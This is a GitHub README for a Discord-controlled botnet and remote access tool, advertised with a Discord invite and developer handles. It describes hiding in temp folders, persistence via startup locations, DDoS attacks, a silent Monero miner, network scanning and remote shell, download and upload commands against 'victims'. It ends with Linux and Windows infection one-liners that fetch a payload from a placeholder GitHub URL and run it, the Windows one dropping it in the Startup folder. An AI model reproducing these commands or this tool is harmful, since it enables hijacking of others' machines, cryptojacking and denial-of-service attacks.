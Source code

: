 # Discord.py BotNet
![image](https://user-images.githubusercontent.com/104208624/203850203-55e89e04-0f26-4d3c-b87f-e9d8be7ef81f.png)

https://discord.gg/vCdPTjD6rZ

# Developers
me: batu.sh#9675

bnt: @udbnt

# Features
* Hidden (Works in /tmp, %temp%)
* Persistence (Copying to /boot, shell:startup)
* Tested on Windows and Linux platforms
* DDoS attack uses "storm" script
* Mining uses "xmrig"

# Soon
* Zmap entine network scan (bruteforce scanned ssh by: https://github.com/bntr00t/sshb)
* Webcam picture
* ?

# Bot Commands

* !sessions                              (List open sessions)
* !check                                 (Check miner & ddos status)
* !update                                (Update RAT)

* !ddos <IP>                             (Start DDoS Attack)
* !stopddos                              (Stop DDoS)

* !miner <WALLET>                        (Start slient XMR Crypto Miner CPU + AMD/INTEL GPU's)
* !stopminer                             (Stop miner)

* !zmap                                  (ZMap scan 90 ip addresses)
* !stopzmap                              (Stop ZMap)
* !zmapreport                            (ZMap report)

# Self Commands

* !info.<HOSTNAME>@<IP>                  (Send IP Information)
* !shell.<HOSTNAME>@<IP> <CMD>           (Run command)
* !download.<HOSTNAME>@<IP> <URL> <NAME> (Download file to victim)
* !upload.<HOSTNAME>@<IP> <PATH>         (Upload file to bot)

# Linux victim
cd /boot; apt-get update -y; apt-get install curl -y; [ -f "Client" ] && rm Client; curl -O Client "https://raw.githubusercontent.com/NAME/NAME/main/NAME"; chmod 777 Client; ./Client

# Windows victim
cd "%AppData%\Microsoft\Windows\Start Menu\Programs\Startup" && if exist Client.exe del Client.exe && powershell -command Invoke-WebRequest https://github.com/NAME/NAME/raw/main/NAME.exe -OutFile Client.exe && Client.exe
